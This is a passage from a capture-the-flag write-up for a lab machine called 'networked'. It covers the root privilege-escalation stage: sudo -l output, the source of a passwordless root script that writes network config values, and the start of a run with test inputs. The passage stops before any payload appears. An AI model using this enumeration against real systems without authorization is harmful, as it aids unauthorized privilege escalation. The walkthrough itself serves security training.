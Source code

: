 ### 3. Getting Root

As always, check if we can do something as a root.<br>
We can execute "/usr/local/sbin/changename.sh" as root with no password.
{% highlight shell %}
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$
{% endhighlight %}

"changename.sh" is a bash script which tries to rewrite the content of "/etc/sysconfig/network-scripts/ifconfig-guly" each time it is executed.
{% highlight shell %}
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
[guly@networked ~]$ 
{% endhighlight %}

#### Execution of changename.sh:
1. take user input as "$x"
2. write each config "NAME", "PROXY_METHOD", "BROWSER_ONLY", "BOOTPROTO" in "ifconfig-guly"
{% highlight shell %}
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
test
test
interface PROXY_METHOD:
test
test
interface BROWSER_ONLY:
test
test
interface BOOTPROTO: